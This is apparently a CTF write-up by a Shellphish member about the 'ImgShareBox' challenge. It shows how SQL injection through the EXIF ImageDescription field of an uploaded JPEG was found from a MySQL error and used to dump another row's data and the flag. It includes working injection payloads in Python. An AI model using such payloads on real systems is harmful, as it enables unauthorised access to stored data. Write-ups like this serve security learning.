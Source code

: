 # ImgShareBox 

## Description 
We created a new cool service that allows you to share your images with everyone (it's on beta now)! The only thing you need to share something is an Image Description! Happy sharing!  
[service](https://img.ctf.bz/)  

## Vulnerability 
Basically, service is an App working with DropBox in background fetching images (jpeg/jpg) from a specific path, `/App/ImgShareBox` to User's shares. From the challenge description we can find understand it somehow parses JPEG EXIF headers and looks for ImageDescription (`0x10e`).  

Then simply I used pillow and piexif packages to parse EXIF headers and update image comment. At first I thought it may be some sort of XSS challenge, but then it turned out to be a SQL injection.  

Error content was base64 encoded but when I tried to decode, it generated error about padding, then I realized `imgsb` appended to the beginning of content is garbage.  

```
(_mysql_exceptions.ProgrammingError) (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'https://www.dropbox.com/s/z27nuuim6zgqo0i/test.jpg?dl=0&raw=1', '0')' at line 1") [SQL: "INSERT INTO `image_shares` (`owner`, `description`, `image_link`, `approved`) VALUES ('dbid:AADp6iAAiOSPQ9EBcI6XyyXOGX18YWaRVT8', ''', 'https://www.dropbox.com/s/z27nuuim6zgqo0i/test.jpg?dl=0&raw=1', '0')"] (Background on this error at: http://sqlalche.me/e/f405)"'")
```  

Our single quote payload located in the middle of an INSERT INTO query. so we have control over query and now let's change `image_link` to point the flag. I spent sometime enumerating all columns and tables in the `image_shares` table. Then I tried to dump all information for very first post.  

```python
set_desc(img, '\', (select concat_ws(0x3a, owner, image_link) from image_shares as a where id=1), 0)-- ')
upload()
```  

```python
set_desc(img, '\', (select concat_ws(0x3a, owner, description) from image_shares as a where id=1), 0)-- ')
upload()
```  

You can find flag under class `card-avatar`:  

`ctfzone{b4827d53d3faa0b3d6f20d73df5e280f}`  

![flag_image](https://source.unsplash.com/random/454x409?water,cat,nature)  

Sincerely,  
@pwnslinger :shell: :fish: (@shellphish)  
